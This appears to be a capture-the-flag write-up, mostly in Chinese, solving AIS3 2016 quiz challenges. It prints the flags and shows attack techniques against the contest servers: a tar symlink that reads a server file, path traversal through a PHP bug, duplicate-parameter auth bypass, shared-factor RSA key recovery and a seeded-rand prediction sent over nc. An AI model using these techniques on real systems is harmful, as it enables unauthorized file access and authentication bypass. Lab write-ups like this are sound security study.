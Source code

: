## misc-1
`ais3{2016_^_^_hello_world!}`
## misc-2
`hd UNPACK_ME` 觀察發現類似7z的[signature](http://www.7-zip.org/recover.html):  
37 7A BC AF 27 1C 被改成 37 5A BC AF 27 1C  
*(其實他就是把 "7z" 換成 "7Z" XD)*  
Use python mmap to repair:
``` python
with open('','a+') as file:
  mm = mmap.mmap(file.fileno(),0)
  mm[1] = '\x7A'
  mm.close()
```
修好之後會發現檔案被加密了  其中一個0 byte的檔名就是密碼   
`7z x 壓縮檔 -p密碼`  
接下來一樣的方式修好7z 解壓縮後會有secret.txt  
裡面是下一個檔案的密碼  
解壓縮一次size會減少300 bytes左右, 估計包了1000層
``` sh
for i in `seq 1000`;do
  filename=`ls | grep ".\{16,\}"`
  ./repair.py $filename
  7z x $filename -p`cat secret.txt` -y
done
```
```sh
cat flag.txt
ais3{7zzZzzzZzzZzZzzZiP}
```
## misc-3
提示是Symbolic Link

程式碼會把上傳的tar檔解壓縮後,  
再跟../flag.txt做hash比較  
要brute force去做hash collision看起來是不太可行..  
後來提示出來之後才知道symbolic link可以隨意指定路徑
```sh
ln -s ../flag.txt guess.txt
tar cvf guess.tar guess.txt
```
把檔案上傳後就可以拿到flag
## web-1
Google 也找不到的原因就是因為robots.txt的設定  
直接打開robots.txt 就能找到隱藏的網頁了  
https://quiz.ais3.org:8011/robots.txt
```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```
https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php   
`ais3{Y0u_beat_the_G00g1e!!}`
## web-2
Location 會向瀏覽器傳送 redirect 指令  
但是原本的網頁還是會傳送到client端  
使用無視redirect的curl:  
`curl https://quiz.ais3.org:8012/panel.php`
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}</body>
</html>
```
## web-3
根據這個[bug](https://bugs.php.net/bug.php?id=55511):  
https://quiz.ais3.org:8013/download.php?p=../flag.php&a=10:5  
```php
Ha! Ha! You can not see the content of this file, because it is PHP!!! :)
<?php
$flag = "ais3{haha!i_bypassed_the_fucking_waf!}";
?>
```
## crypto-1
`xortool crypto1`發現可能的長度為 13 or 39  
`xortool crypto1 -l 13 -c 00`不是flag  
`xortool crypto1 -l 39 -c 00`會看到AIS字樣, 看來十分接近了  

改用空格分析:  
`xortool crypto1 -l 39 -c 20`  
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_i!ea}`  
上傳之後發現答案是錯的OAO  
根據某位大大的說法只好自己腦補一下XD   
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}`  
不知道是不是bug還是解法不對
## crypto-2
這題其實可以繞過hash pump的部份  
　quiz.ais3.org:8014/?expire=1467442319&auth=2aa272c43a0440b10abb0a1c4266842b941bc63c&expire=9999999999999  
expire跟auth本來就已經是一對了  但是url如果有重複的parameter會以後面的為主  
只要讓expire > time(0)就可以了...  
`ais3{HasH.eXtension.@tt@ck!}`

理論上應該要避免掉這種狀況才對XD  不知道為什麼會留著這個漏洞  

## crypto-3
RSA2048  
首先先檢查他給的100個public key會發現  
每一個的exponent都是179424787  
而且public key有很多組重複的, 去掉重複的key之後剩下38組  
兩兩求gcd 得到76組private key  
(估計其中還是有重複的  只是才76組我也懶得過濾了XD)  
最後用private key解開flag.enc  
`ais3{Euc1id3an_a1g0ri7hm_i5_u53fu1}`
## remote-1
time attack
```c
#include
int main(){
  srand(time(NULL));
  return rand()^0x2016a153;
}
```
```sh
./a.out | nc quiz.ais3.org port
ais3{sEEd_is_cRiTiCaL_@_@}
```
## binary-1
原本是用回推encrypted的方式  但是算出來的答案是錯的  
後來用計算instruction的方式  
待補
